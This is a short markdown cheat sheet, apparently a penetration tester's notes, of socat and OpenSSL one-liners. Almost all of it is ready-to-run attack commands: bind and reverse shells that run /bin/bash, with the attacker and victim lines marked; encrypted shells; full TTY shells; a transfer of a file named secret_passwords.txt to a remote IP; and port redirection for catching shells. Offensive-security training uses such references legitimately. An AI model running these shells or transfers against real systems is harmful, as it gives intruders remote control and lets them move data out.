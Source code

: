#network #tool #openssl #reverseShells 

https://gtfobins.github.io/gtfobins/socat/

### Basic listen and connect

```bash
socat - TCP4:192.168.1.2:80 ## connect to a remote port 
```

```bash 
sudo socat TCP4-LISTEN:443 STDOUT ## listen in 443 
```

### File transfers 

```bash 
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt ##file to be transfered 
```

```bash
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create ## received file
```

### Bind Shell

```bash
socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash
```



### Reverse shell

```bash
socat -d -d TCP4-LISTEN:443 STDOUT ## listening for the reverse connection
```

```bash
socat TCP4:10.11.0.22:443 EXEC:/bin/bash ## connecting back
```

### Encrypted shell

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash ## listner can also use STDIO
```

```bash
socat - OPENSSL:10.11.0.4:443,verify=0 ##connection initiated
```



### Full TTY 

**Reverse Shell** 

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345 ##attacker
```

```bash
socat tcp-connect:$RHOST:$RPORT exec:/bin/bash,pty,stderr,setsid,sigint,sane ##victim
```


**Bind Shell**

```bash
socat FILE:`tty`,raw,echo=0 TCP:192.168.188.52:60000 ##attacker
```

```bash
socat TCP-LISTEN:$LPORT,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane ##victim
```





### Port Redirections(Catching a reverseshell)

```bash
socat -ddd TCP-LISTEN:2345,fork,reuseaddr TCP:10.4.50.215:5432
```
